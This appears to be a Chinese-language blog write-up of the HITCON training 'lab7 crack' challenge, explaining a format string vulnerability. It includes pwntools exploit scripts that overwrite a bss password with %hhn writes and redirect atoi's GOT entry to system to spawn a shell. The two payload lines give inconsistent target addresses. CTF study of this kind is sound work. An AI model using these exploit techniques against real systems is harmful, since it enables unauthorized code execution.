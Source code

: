 ```yaml
---
title: lab7_crack
date: 2019-07-11
categories: 
- hitcon_trainning
tags: stack formating_string
---
```



**<font style="font-size:25px">格式化字符串漏洞</font>**    

# 非getshell

## 思路


- **按代码的逻辑来说**，是要求猜一个随机数，如果这里的cat flag的确有这个flag的话，那么覆盖password成为指定内容就可以做完了。  
![在这里插入图片描述](https://img-blog.csdnimg.cn/20190712143146308.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQxNjY3MzE2,size_16,color_FFFFFF,t_70)  
![在这里插入图片描述](https://img-blog.csdnimg.cn/20190712143209276.png)
password是一个**bss段**的变量，而checksec发现  
 

地址随机化没开，所以password的地址确定了。 
![在这里插入图片描述](https://img-blog.csdnimg.cn/20190712143228450.png)
- <font style="font-size:15px">**payload**</font>  
![在这里插入图片描述](https://img-blog.csdnimg.cn/2019071214340610.png)
buf是第十个参数,干脆把他覆盖成0。然后再加上前面格式化字符串的长度，可以得到地址开始是第17个参数。  
```python
payload="%17$hhn%18$hhn%19$hhn%20$hhnA"+p32(0x0804a048)+p32(0x0804a049)+p32(0x0804a050)+p32(0x0804a051)
```

## exp

```python
from pwn import *
import time 
#context.terminal = ['deepin-terminal', '-x', 'sh', '-c']

sh=process("./crack")
context.log_level='debug'

#gdb.attach(sh)
payload="%17$hhn%18$hhn%19$hhn%20$hhn"+p32(0x0804a048)+p32(0x0804a049)+p32(0x0804a04a)+p32(0x0804a04b)

sh.sendlineafter("name ? ",payload)
time.sleep(0.1)
sh.sendlineafter(':','0')

sh.interactive()
sh.close()
```
  

# getshell

- **我大胆想象一下**，如果我把atoi的got表给改成system的plt表......

```python
from pwn import *
import time 
#context.terminal = ['deepin-terminal', '-x', 'sh', '-c']

sh=process("./crack")
elf=ELF("./crack")
context.log_level='debug'

#gdb.attach(sh)

atoi_got_addr=elf.got['atoi']
system_plt_addr=elf.plt['system']

payload=fmtstr_payload(10,{atoi_got_addr:system_plt_addr})

sh.sendlineafter('? ',payload)
time.sleep(0.1)
sh.sendlineafter(':',"/bin/sh")

sh.interactive()
sh.close()
```

plt表是不可写的= =。 
![在这里插入图片描述](https://img-blog.csdnimg.cn/20190712143419322.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQxNjY3MzE2,size_16,color_FFFFFF,t_70) 